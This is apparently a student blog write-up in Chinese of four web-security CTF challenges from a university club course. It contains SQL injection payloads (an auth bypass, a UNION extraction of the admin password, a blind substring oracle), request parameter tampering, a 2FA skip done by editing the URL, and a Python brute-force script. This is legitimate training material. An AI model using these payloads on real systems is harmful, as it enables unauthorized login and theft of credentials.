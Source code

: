 ```yaml
---
title: 2023 Fall Bamboofox社課題解 Week 1
top_img: transparent
date: 2023-10-02 23:31:07
tags:
    - WebSecurity
    - Bamboofox社課題解
categories:
    - Bamboofox社課
cover: Bamboofox社課/bamboofox-2023-fall-week1/110855742.jpg
description: 2023 Fall Bamboofox社課題解 Week 1 (WebSecurity)
---
```


[本周題目](https://bamboofox.cs.nctu.edu.tw/courses/16/challenges)

## 1. [[Web] Cat shop](https://bamboofox.cs.nctu.edu.tw/courses/16/challenges/271)

這題要利用[BurpSuite](https://portswigger.net/burp)來監聽網頁。

進入BurpSuite，開proxy讓他能夠代理收發瀏覽器裡面的http request，隨便買一隻貓，會發現購買介面的連結為
```bash
http://bamboofox.cs.nctu.edu.tw:11306/item/5428
```
最後面的編號是照順序的，可以推知，flag的編號是5430，所以可以直接改連結進到購買flag的畫面

這時候會發現錢不夠用，從之前的post可以看出，貓咪的價格是直接寫在post裡的，最底下會有:
```bash
item_id=5430&cost=2147483648
```
這時候只要打開攔截，把post中的cost修改成1之類的小數字，就可以有足夠的錢購買了，成功獲得flag。

## 2. [[Web] Login Panel (login)](https://bamboofox.cs.nctu.edu.tw/courses/16/challenges/267)

這題登入admin的SQL為:
```sql
SELECT * FROM Users WHERE username = '輸入的username' AND password = '輸入的password'
```
它會自動找到admin並登入，不過只要密碼錯誤，AND的後項就不會成立，造成整個式子False。所以要想辦法讓它必然是True。

這裡使用SQL injection的技巧，把密碼設計成以下:
```sql
' OR ''='
```
放進去password的地方之後，SQL變為:
```sql
SELECT * FROM Users WHERE username = 'admin' AND password = '' OR ''=''
```
因為空字串必等於空字串，因此此式必定成立，就可以在任意密碼下登入admin帳號

登入之後，雖然不知道2FA碼是多少，但我們知道guest登入之後，所在的路徑是dashboard結尾。
```bash
https://login-panel.ching367436.me:8443/dashboard
```
所以嘗試把admin登入後網址的2fa結尾，直接改成dashboard結尾就可以得到flag了:

## 3. [[Web] Login Panel 2 (password)](https://bamboofox.cs.nctu.edu.tw/courses/16/challenges/269)

這題的關鍵在於，登入進去之後，會有一句Welcome back username。因為這個username是從資料庫裡取出來的，所以我們可以試著讓他取出來的東西不是username，而是flag(此題的flag為admin的密碼，標題有寫)

這題跟上題的方法類似，不過要用到SQL語法裡的UNION來設計，設計出以下的密碼:
```sql
' UNION SELECT 1,(SELECT password FROM Users WHERE username='admin'),3,4 --
```
讓SQL變成
```sql
SELECT * FROM Users WHERE username = '輸入的username' AND password = '' UNION SELECT 1,(SELECT password FROM Users WHERE username='admin'),3,4 --'
```
前面的SELECT必定失敗，但是透過UNION，他會同時在SELECT另一個東西，當SELECT的東西不存在時，他會自己創造一個。這裡透過創造一個第二欄(username欄)的值是資料庫中，admin的密碼。就可以讓他Welcome back的username是admin的密碼，也就是flag。

順帶一提，這個資料庫的table欄位為:id,username,password,code

## 4. [[Web] Login Panel (password)](https://bamboofox.cs.nctu.edu.tw/courses/16/challenges/268)

這題跟第一題的網站是一樣的，不過這次不是要登入，而是要試出admin的password(如標題所述)

這題有擋第3題的方法，因此我們不能夠直接抓到admin的password，但我們這裡可以配合python暴搜admin的密碼是甚麼。

首先設計密碼為:
```sql
g' OR substr((SELECT password FROM Users WHERE username='admin'), 1, 1)='B' --
```
登入的SQL變成底下這樣
```sql
SELECT * FROM Users WHERE username = '輸入的username' AND password = 'g' OR substr((SELECT password FROM Users WHERE username='admin'), 1, 1)='B' --'
```
這個SQL代表，OR當admin的password的substring從第1位開始數，長度為1的字串(第1個字)，等於'B'時，OR後面的東西會是True，會成功登入。

透過這個方法，我們可以一一檢測，admin的password中的某一位是不是某個字，如果是的話，就會接收到成功登入的回傳html。

寫成python的爆搜方法如下(我寫得不好，這個code要跑頗久，建議建表之類的改良)，至於post應該帶甚麼內容，可以自己用BurpSuite看:
```py
import requests;

URL = 'https://login-panel.ching367436.me:8443/login?msg=invalid_credentials'
stop = 0
flag = ''
for num in range(1,100):
    if stop:
        break
    print(f"now if run position {num}")
    for i in range(1,128):
        trychar = i.to_bytes(1,'big').decode() # 關於此行的詳細，請參考https://hackmd.io/@9UfXRWPzS62YaxdR7uwZ0Q/B1K4TRr16
        post = requests.post(URL,
                            {
                                'username':'guest',
                                'password':f'g\' OR substr((SELECT password FROM Users WHERE username=\'admin\'), {num}, 1)=\'{trychar}\' --',
                            }
        )

        if '2FA' in post.text: # 登入頁面會有2FA字樣
            flag += trychar
            if trychar == '}':
                stop = 1
            break
    print(flag)
```

封面圖來源: [恥じらい虹夏ちゃん…///](https://www.pixiv.net/artworks/110855742)

---